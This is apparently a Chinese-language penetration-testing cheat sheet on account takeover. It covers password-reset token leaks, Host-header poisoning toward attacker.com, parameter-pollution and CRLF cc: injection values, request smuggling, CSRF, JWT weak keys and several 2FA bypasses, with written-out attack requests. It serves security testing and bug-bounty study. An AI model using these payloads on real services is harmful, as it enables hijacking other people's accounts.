


# 任意用户密码重置/任意用户登录（账户接管）

## 目录

* [密码重置](#密码重置)
    * [Referer导致重置密码token泄露](#referer导致重置密码token泄露)
    * [修改请求Host对任意用户密码重置](#修改请求host对任意用户密码重置)
    * [通过修改参数重置任意用户密码](#通过修改参数重置任意用户密码)
    * [修改密码API接口未授权访问](#修改密码api接口未授权访问)
    * [重置密码Token弱算法](#重置密码token弱算法)
    * [验证码泄露（查看返回包）](#验证码泄露查看返回包)
    * [通过注册相同用户名重置密码](#通过注册相同用户名重置密码)
    * [unicode 字符问题导致的安全问题](#unicode-字符问题导致的安全问题)
* [通过XSS接管帐户](#通过xss接管帐户)
* [利用请求走私接管帐户](#利用请求走私接管帐户)
* [通过 CSRF 修改密码](#通过-csrf-修改密码)
* [通过JWT空密钥或弱密钥接管帐户](#通过jwt空密钥或弱密钥接管帐户)
* [双因子认证(2FA)绕过](#双因子认证2fa绕过)
    * [修改影响包数据Bypass](#修改影响包数据bypass)
    * [JS信息泄露](#js信息泄露)
    * [验证码重用](#验证码重用)
    * [暴力破解](#暴力破解)
    * [通用型的双因子验证码](#通用型的双因子验证码)
    * [通过CSRF禁用双因子认证功能](#通过csrf禁用双因子认证功能)
    * [直接访问认证目录绕过双因子认证](#直接访问认证目录绕过双因子认证)
    * [使用空验证码或000000验证码绕过双因子认证](#使用空验证码或000000验证码绕过双因子认证)
    * [使用数组方式一次提交多个验证码进行爆破](#使用数组方式一次提交多个验证码进行爆破)
* [参考](#参考)

## 密码重置

### Referer导致重置密码token泄露

1. 利用邮件方式重置密码，系统会发送一封重置密码邮件
2. 进入邮箱，点击重置密码邮件中的重置密码功能或超链接
3. 此时系统界面提示输入新密码，不要更改密码，停留在这个页面
4. 在重置密码页面寻找超链接，开启Burp抓包后点击该超链接
5. 使用BURP抓包拦截，检测请求头中的Referer中是否包含重置密码的token。
6. 译者注：此利用方式非常局限，危害性较低。如果在重置密码的页面中包含一个过期的域名（可注册）或可控的超链接，配合这个漏洞利用则另当别论。
7. 参考链接：https://hackerone.com/reports/342693，https://hackerone.com/reports/272379

### 修改请求Host对任意用户密码重置

1. 对密码重置功能抓包并发送到Burp重放功能中。
2. 在数据包中修改Host或添加X-Forwarded-Host ，如 `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. 修改后的数据包
    ```http
    POST https://example.com/reset.php HTTP/1.1
    Accept: */*
    Content-Type: application/json
    Host: attacker.com
    ```
    或
    ```http
    POST https://example.com/reset.php HTTP/1.1
    Accept: */*
    Content-Type: application/json
    X-Forwarded-Host: attacker.com
    ```
4. 根据 *host header* 查找密码重置 URL，例如 : `https://attacker.com/reset-password.php?token=TOKEN`
5. 参考链接：
 https://blog.csdn.net/vodkaDL/article/details/110673825
 https://hackerone.com/reports/226659
 https://hackerone.com/reports/167631

### 通过修改参数重置任意用户密码

```powershell
# 参数污染
# 正常数据
email=victim@mail.com

# 攻击数据
email=victim@mail.com&email=hacker@mail.com

# 数组类型的参数值
# 正常数据
{"email":"victim@mail.com"}

# 攻击数据
{"email":["victim@mail.com","hacker@mail.com"]}

# 换行符（carbon copy）
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# 分隔符
# 正常数据
email=victim@mail.com

# 攻击数据
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
email=victim@mail.com%09hacker@mail.com #注：%09为制表符 \t
```
#####思路转变，手机号码同样适用

```powershell
# 参数污染
# 正常数据
phone=15888888888

# 攻击数据
phone=15888888888&email=你的手机号码

# 数组类型的参数值
# 正常数据
{"email":"15888888888"}

# 攻击数据
{"email":["15888888888","你的手机号码"]}

# 换行符（carbon copy）
email=15888888888%0A%0D你的手机号码

# 分隔符
# 正常数据
email=15888888888

# 攻击数据
email=15888888888,你的手机号码
email=15888888888%20你的手机号码
email=15888888888|你的手机号码
email=15888888888%09你的手机号码 #注：%09为制表符 \t
```


### 修改密码API接口未授权访问

1. 攻击者登录自己的账号，找到修改密码功能，并选择修改密码
2. 启动Burp拦截请求
3. 将修改密码请求发送到重放器(Repeater)，修改用户和密码参数
    ```
    POST /api/changepasswd HTTP/1.1
    Host: test.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 38

    email=受害者账号&password=123456
    ```

### 重置密码Token弱算法

密码重置Token应随机生成且具备唯一性。
尝试确定Token是否过期，或者它是否始终相同，在某些情况下，生成算法很弱，可以猜到。该算法可能使用以下变量。

* 时间戳
* 用户ID或用户名
* 用户的邮箱或手机号码
* 用户真实姓名
* 用户的生日日期
* 密码学(Cryptography)
* 纯数字
* 小于6位数的A-Za-z0-9
* Token重复使用
* Token到期时间(Token expiration date)

### 验证码泄露(查看返回包)

1. 找到找回密码功能，输入你需要找回密码的账号，点击该功能找回密码
2. 利用Burp拦截->右键->Do intercept->Response to this request
3. 查看返回包，寻找返回内容是否包含验证码或修改密码的token




 

### 通过注册相同用户名重置密码

1. 使用与受害者用户名相同的用户名在系统上注册，但在用户名前缀或后缀加上空格或制表符换行符等符号。 如: ```"admin "```
2. 使用你注册的用户名请求重置密码。
3. 接收验证码，并重置密码。重置完成后尝试登录受害者账户，查看是否成功。
4. 原理解释（译者个人猜测）：用户注册时没有对特殊字符进行过滤或写入数据库时没有清空空格等字符。但在找回密码功能处使用类似php的trim()函数处理掉空格，假设一个账号名为```"admin空格"```，找回密码时trim函数将参数值变成```"admin"```，所以即可找回admin账户的密码。


参考: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)


### unicode 字符问题导致的安全问题

当处理涉及用户输入的 unicode 字符时，例如在利用邮件注册用户时，可能会出现异常行为。

- 受害者注册的账户: `demo@gmail.com`
- 攻击者注册的账户: `demⓞ@gmail.com`

[Unisub - 这是一个将字符串转换为unicode的工具](https://github.com/tomnomnom/hacks/tree/master/unisub)

[Unicode pentester cheatsheet](https://gosecure.github.io/unicode-pentester-cheatsheet/) 
这是一个可用于不同编程语言，查找合适的 unicode 字符列表的网站。

## 通过XSS接管帐户

1. 假设域名`user.test.com`和其它子域`*.test.com`共用cookie，在子域找到一个XSS漏洞，即可利用子域的cookie登录到`user.test.com`。（是不是有点像当年的点我链接就登录你XX空间、XX邮箱，原理相似）


## 利用请求走私接管帐户

请参阅 **HTTP 请求走私** 漏洞页面
1. 使用 **smuggler** 检测请求走私 (CL, TE, CL.TE)
    ```powershell
    git clone https://github.com/defparam/smuggler.git
    cd smuggler
    python3 smuggler.py -h
    ```
2. 创建一个请求，该请求将使用以下请求覆盖 `POST / HTTP/1.1` :
    ```powershell
    GET http://something.burpcollaborator.net  HTTP/1.1
    X: 
    ```
3. 最终的请求数据包可能如下例子
    ```powershell
    GET /  HTTP/1.1
    Transfer-Encoding: chunked
    Host: something.com
    User-Agent: Smuggler/v1.0
    Content-Length: 83

    0

    GET http://something.burpcollaborator.net  HTTP/1.1
    X: X
    ```
    
参考案例
* https://hackerone.com/reports/737140
* https://hackerone.com/reports/771666

## 通过 CSRF 修改密码

1. 利用场景：应用系统修改密码处没有对旧密码进行验证，也没有做CSRF防御机制。
2. 构造一个CSRF 修改密码payload（利用Burp可自动生成）。
3. 将payload保存为html放到远程服务器中，让别人访问这个URL。

## 通过JWT空密钥或弱密钥接管帐户

JSON Web Token可用于对用户进行身份验证。

* 直接编辑JWT中的userid / Email / Phone等。
* 爆破JWT密钥。

## 双因子认证(2FA)绕过

### 修改影响包数据Bypass

* [验证码泄露（查看返回包）](#验证码泄露查看返回包) 同理，不再复述。


### 修改响应状态码Bypass

如果返回的状态码为 **4xx**
可以尝试将返回状态码改为 **200 OK** ，随后观察变化，看看请求是否成功

返回的请求包
```
HTTP/1.1 403 Forbidden
Date: Sat, 2 Dec 2023 06:22:06 GMT
Connection: close
Content-Security-Policy: block-all-mixed-content
Content-Type: text/plain; charset=utf-8
Strict-Transport-Security: max-age=31536000
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Content-Length: 0
```
修改后的请求包
```
HTTP/1.1 200 OK
Date: Sat, 2 Dec 2023 06:22:06 GMT
Connection: close
Content-Security-Policy: block-all-mixed-content
Content-Type: text/plain; charset=utf-8
Strict-Transport-Security: max-age=31536000
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Content-Length: 0
```

### JS信息泄露

很少见，但有些 JS 文件可能包含有关 2FA的验证信息，值得一试

### 验证码重用

相同的验证码可重复使用

### 暴力破解

暴力破解双因子验证码

### 通用型的双因子验证码

任何用户的双因子验证码都可以使用。举个例子，假设A用户接收到的验证码为123456，而B用户接收到的验证码为000000,。此时系统下发了两个验证码，这两个验证码无论A或B账户都可以使用。

### 通过CSRF禁用双因子认证功能

禁用双因子认证时功能存在CSRF漏洞，可利用CSRF禁用掉该功能


### 直接访问认证目录绕过双因子认证

If the application redirects to `/my-account` url upon login while 2Fa is disabled, try replacing `/2fa/verify` with `/my-account` while 2FA is enabled to bypass verification.

假设在无双因子认证的情况下应用程序在登录时跳转到`/my-account`，开启双因子认证时会跳转到`/2fa/verify`，尝试通过Burp或浏览器直接访问`/my-account`目录。

### 使用空验证码或000000验证码绕过双因子认证

空验证码
```
POST /2fa/verify HTTP/1.1
Host: test.com
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

code=
```
000000
```
POST /2fa/verify HTTP/1.1
Host: test.com
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

code=000000
```

### 使用数组方式一次提交多个验证码进行爆破

```json
{
    "otp":[
        "1234",
        "1111",
        "1337", // 正确的验证码
        "2222",
        "3333",
        "4444",
        "5555"
    ]
}
```


## 参考

- [10 种重置密码的方式 - Anugrah SR](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)
- [$6,5k + $5k HTTP 请求走私漏洞导致大量账户接管 - Slack + Zomato](https://www.youtube.com/watch?v=gzM4wWA7RFo&feature=youtu.be)
- [Broken Cryptography & Account Takeovers - Harsh Bothra - September 20, 2020](https://speakerdeck.com/harshbothra/broken-cryptography-and-account-takeovers?slide=28)
- [Hacking Grindr Accounts with Copy and Paste - Troy HUNT & Wassime BOUIMADAGHENE - 03 OCTOBER 2020](https://www.troyhunt.com/hacking-grindr-accounts-with-copy-and-paste/)
- [CTFd Account Takeover](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)
- [2FA simple bypass](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass)
